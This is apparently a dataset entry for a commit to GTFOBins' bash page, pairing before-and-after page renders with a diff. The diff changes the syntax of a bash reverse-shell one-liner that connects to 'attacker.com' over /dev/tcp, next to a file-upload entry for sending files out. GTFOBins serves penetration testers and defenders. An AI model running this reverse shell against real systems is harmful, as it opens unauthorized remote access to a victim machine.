

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/bash.md, in a window 1280 px wide and 900 px high. Shown: the part 404-700 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/bash.md
+++ b/_gtfobins/bash.md
@@ -7,7 +7,7 @@ functions:
       code: |
         export RHOST=attacker.com
         export RPORT=12345
-        bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'
+        bash -c 'bash -i &>/dev/tcp/$RHOST/$RPORT 0<&1'
   file-upload:
     - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
```
